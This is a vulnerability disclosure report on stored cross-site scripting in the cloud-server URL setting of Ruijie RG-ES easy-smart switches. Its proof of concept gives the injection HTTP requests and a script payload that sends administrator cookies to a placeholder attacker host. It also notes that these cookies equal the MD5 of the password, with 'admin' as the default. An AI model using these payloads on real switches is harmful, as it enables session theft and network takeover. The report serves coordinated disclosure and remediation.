

# CVE Report: Stored XSS in Cloud Server URL Parameter of Ruijie RG-ES Series Switches


## 1. Vulnerability Information

| Item | Details |
|---|---|
| Title | Stored Cross-Site Scripting in Cloud Server URL Parameter of Ruijie RG-ES Series Easy-Smart Switches |
| Type | CWE-79: Improper Neutralization of Input During Web Page Generation (Stored XSS) |
| Vendor | Ruijie Networks Co., Ltd. |
| Affected Products | RG-ES205GC, RG-ES206GC-P, RG-ES208GC, RG-ES210GC-LP, RG-ES210GS-P (sharing the same ESW firmware; NIS2100 series may also be affected) |
| Affected Version | ESW_1.0(1)B1P48, Release(12211919) (firmware built 2025-09-19, downloaded from official site); older versions to be confirmed by vendor |
| Tested Device | RG-ES208GC, Hardware v1.30, SN: G1U408T000054 |
| Discovery Method | Firmware static analysis + live-device dynamic verification |
| CVSS 3.1 | **5.4 (Medium)** — `AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N` |
| Discovery Date | 2026-09-26 |

## 2. Description

The web management interface of RG-ES series switches provides a "Cloud Management" feature. An administrator configures the cloud platform server address (the `url` parameter) via `set_cloud_serverUrl.cgi`. The value is persistently stored in the device flash and echoed back into the page form (`<input id="url" value="...">`) whenever the cloud management page `cloud.cgi` is rendered.

The parameter receives **no effective server-side validation or filtering**, and the stored value is echoed back **without any HTML escaping**. An attacker holding a valid management session can inject arbitrary HTML/JavaScript, resulting in stored XSS. When another administrator visits the cloud management page, the malicious script executes in their browser, allowing session cookie theft or arbitrary administrative actions under their identity.

**Amplifying factor**: the device's session credential is designed as `Cookie: <deviceSN>=md5(plaintext password)` — the cookie value IS the MD5 of the password (verified on the live device: `Set-Cookie: G1U408T000054=21232f297a57a5a743894a0e4a801fc3`, i.e. `md5("admin")`). Stealing the cookie equals stealing the password hash, which can be used directly to log in (Pass-the-Hash). The real-world impact of this XSS is therefore significantly higher than usual.

## 3. Root Cause

1. **Client-side restriction only**: the form field `<input id="url" maxlength="64">` limits input to 64 characters in the browser only; the server performs no equivalent check.
   - Live test (2026-10-06): submitting a 500-character `url` was accepted with HTTP 200; the storage layer **silently truncates at ~244 bytes** (no error, no character filtering). This truncation is not an effective defense — a short 40-character payload exploits the flaw completely.
2. **Stored value echoed without escaping**: `cloud.cgi` concatenates the stored URL directly into the `value="..."` attribute without escaping `"`, `<`, `>`. Injecting `">` breaks out of the attribute context and allows arbitrary HTML injection (confirmed on the live device).
3. Firmware static analysis corroboration: the only length check found in firmware strings for this parameter is on the CoAP parsing path (`flow_parse_url() url is invalid! strlen(url):%u > FLOW_URL_LEN:%u`); the web storage path has no equivalent check.

## 4. Proof of Concept

Prerequisite: the attacker holds a valid management session (factory-default password is `admin`; sessions may also be obtained via weak-authentication chains reported separately).

**Step 1: Inject the payload**

```
POST /set_cloud_serverUrl.cgi HTTP/1.0
Host: 10.44.77.200
Cookie: G1U408T000054=21232f297a57a5a743894a0e4a801fc3
Content-Type: application/x-www-form-urlencoded
Content-Length: xx

url=%22%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E
```

(i.e. `url=` + URL-encoded `"><script>alert(document.domain)</script>`)

The server returns HTTP 200, accepting the value.

**Step 2: Trigger**

The administrator (or the attacker) visits:

```
GET /cloud.cgi HTTP/1.0
Host: 10.44.77.200
Cookie: G1U408T000054=21232f297a57a5a743894a0e4a801fc3
```

The live-device response source (offset 2175) shows the payload persisted verbatim, breaking the HTML structure:

```html
<td class="tl"><input id="url" name="url" value=""><script>alert(document.domain)</script>" maxlength="64" style="width:250px" required></td>
```

The `<script>` executes in the browser — stored XSS confirmed.

**Step 3 (optional impact demo)**: replace the payload with cookie-exfiltration code:

```
"><script>new Image().src="http://attacker/x?c="+document.cookie</script>
```

After an administrator visits the cloud page, their cookie (= md5(password)) is exfiltrated and can be used to log in directly.

**Cleanup**: restore `url` to the original value (e.g. `iotrc.ruijienetworks.com:7683` or `coap://firmware.ruijienetworks.com`).



## 5. Live-Device Verification Log 

| Test | Result |
|---|---|
| Baseline `cloud.cgi` | `value="iotrc.ruijienetworks.com:7683"`, normal |
| Inject XSS payload | HTTP 200, stored successfully |
| Re-visit `cloud.cgi` | Payload echoed unescaped, HTML structure broken (see code block above) |
| 500-char benign oversized value | HTTP 200 accepted, silently truncated to 244 bytes at storage |
| Session cookie structure | `Set-Cookie: G1U408T000054=md5(password); path=/; Max-Age=600` — cookie is the password hash |
| Cleanup | Original value restored; device fully operational |

## 6. Impact

- Theft of administrator session credentials (equivalent to the password MD5 — direct Pass-the-Hash login);
- Arbitrary configuration changes under the administrator's identity: VLAN/port modification, enabling port mirroring for traffic sniffing, shutting down ports (network outage), reboot/factory reset, flashing firmware;
- Pivot to administrator workstations via intranet phishing through the trusted switch management page;
- Stored payload persists in flash — no attacker presence required at trigger time.

## 7. Remediation

1. Enforce strict server-side validation of the `url` parameter: length limit (≤64), scheme whitelist (`coap://`, `coaps://` only), character whitelist (valid domain characters); reject invalid input with an error;
2. Apply context-appropriate output encoding (HTML entity encoding) for all configuration values echoed into HTML;
3. Redesign session credentials: use server-side random tokens instead of placing the password hash in the cookie (this amplifies XSS impact).

 and coordinated vulnerability disclosure only. Do not use for illegal purposes.
